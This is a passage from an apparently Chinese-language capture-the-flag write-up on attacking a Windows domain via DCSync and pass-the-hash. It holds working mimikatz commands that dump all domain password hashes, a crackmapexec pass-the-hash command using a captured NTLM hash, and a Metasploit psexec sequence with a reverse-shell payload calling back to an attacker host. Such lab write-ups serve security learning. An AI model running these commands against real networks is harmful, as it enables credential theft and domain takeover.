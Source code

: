 当一个 DC (客户端 DC)想从其他 DC (服务端 DC)获取数据时，客户端 DC 会向服务端 DC 发起一个 GetNCChanges 请求。回应的数据包括需要同步的数据。

如果需要同步的数据比较多，则会重复上述过程。毕竟每次回应的数据有限。

**DCSync攻击前提**

一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

- Administrators组内的用户
- Domain Admins组内的用户
- Enterprise Admins组内的用户
- 域控制器的计算机帐户

即：默认情况下域管理员组具有该权限。

**DCSync攻击利用**

使用mimikatz，导出域内所有用户的hash

```bash
C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:WIN2016$ /domain:xiaorang.lab /ntlm:抓到的机器账户哈希" "exit"

C:\\Users\\Aldrich\\Desktop\\mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"

load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```

拿到了Administrator的hash

**哈希传递**

直接通过哈希传递就能拿下域控，这里使用**crackmapexec来进行PTH**,拿到最后一部分flag

```bash
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

也可以是要**msf的psexec模块**进行哈希传递

```bash
msf > use  exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost 192.168.10.27
msf exploit(psexec) > set rhost 192.168.10.14
msf exploit(psexec) > set smbuser Administrator
msf exploit(psexec) > set smbdomain xiaorang
msf exploit(psexec) > set smbpass 815A3D91F923441FAAD3B435B51404EE:A86D277D2BCD8C8184B01AC21B6985F6   #这里LM和NTLM我们已经获取到了
msf exploit(psexec) > exploit
```

**mimikatz进行哈希传递攻击PtH**

```bash
kiwi_cmd "privilege::debug"    #先提权
#使用administrator用户的NTLM哈希值进行攻击
kiwi_cmd "sekurlsa::pth /user:用户名  /domain:目标机器IP  /ntlm:密码哈希"
```
